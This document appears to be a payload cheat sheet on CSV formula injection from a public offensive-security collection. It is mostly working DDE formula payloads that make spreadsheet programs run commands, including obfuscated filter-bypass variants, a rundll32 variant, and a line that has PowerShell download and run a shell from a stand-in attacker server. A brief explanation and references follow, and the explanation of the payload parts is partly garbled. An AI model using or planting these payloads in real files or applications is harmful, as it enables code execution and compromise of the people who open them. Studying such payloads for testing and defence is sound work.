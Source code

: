 # CSV Injection

> Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.


## Summary

* [Methodology](#methodology)
* [References](#references)


## Methodology

Basic exploits with **Dynamic Data Exchange**.

* Spawn a calc
    ```powershell
    DDE ("cmd";"/C calc";"!A0")A0
    @SUM(1+1)*cmd|' /C calc'!A0
    =2+5+cmd|' /C calc'!A0
    =cmd|' /C calc'!'A1'
    ```

* PowerShell download and execute
    ```powershell
    =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
    ```

* Prefix obfuscation and command chaining
    ```powershell
    =AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
    =cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
    +thespanishinquisition(cmd|'/c calc.exe'!A
    =         cmd|'/c calc.exe'!A
    ```

* Using rundll32 instead of cmd
    ```powershell
    =rundll32|'URL.dll,OpenURL calc.exe'!A
    =rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A
    ```

* Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
    ```powershell
    =    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
    ```

Technical details of the above payloads:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data


Any formula can be started with

```powershell
=
+
–
@
```


## References

- [CSV Excel Macro Injection - Timo Goosen, Albinowax - Jun 21, 2022](https://owasp.org/www-community/attacks/CSV_Injection)
- [CSV Excel formula injection - Google Bug Hunter University - May 22, 2022](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
- [CSV Injection – A Guide To Protecting CSV Files - Akansha Kesharwani - 30/11/2017](https://payatu.com/csv-injection-basic-to-exploit/)
- [From CSV to Meterpreter - Adam Chester - November 05, 2015](https://blog.xpnsec.com/from-csv-to-meterpreter/)
- [The Absurdly Underestimated Dangers of CSV Injection - George Mauer - 7 October, 2017](http://georgemauer.net/2017/10/07/csv-injection.html)
- [Three New DDE Obfuscation Methods - ReversingLabs - September 24, 2018](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
- [Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection - we45 - October 5, 2020](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)